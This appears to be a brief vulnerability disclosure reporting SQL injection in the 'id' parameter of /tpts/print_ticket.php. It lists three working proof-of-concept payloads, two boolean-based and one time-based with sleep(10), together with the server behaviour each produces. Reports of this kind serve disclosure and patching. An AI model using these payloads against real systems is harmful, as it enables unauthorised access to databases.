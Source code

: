BUG_Author: dengbaihao

Vulnerability File: /tpts/print_ticket.php

GET parameter 'id' exists SQL injection vulnerability

Payload1:id=1 AND 666=666

The Boolean value is judged correctly, so the page output is normal.

![image](https://github.com/XIAONIGM/CVEReport/blob/main/3.png)

Payload2:id=1 AND 666=999

The Boolean value judgment is wrong, so the page output is abnormal.

![image](https://github.com/XIAONIGM/CVEReport/blob/main/4.png)

Payload3:id=1 and (select 2 from (select(sleep(10)))c)

The time injection is successful, and the response from the server is 10 seconds.

![image](https://github.com/XIAONIGM/CVEReport/blob/main/5.png)
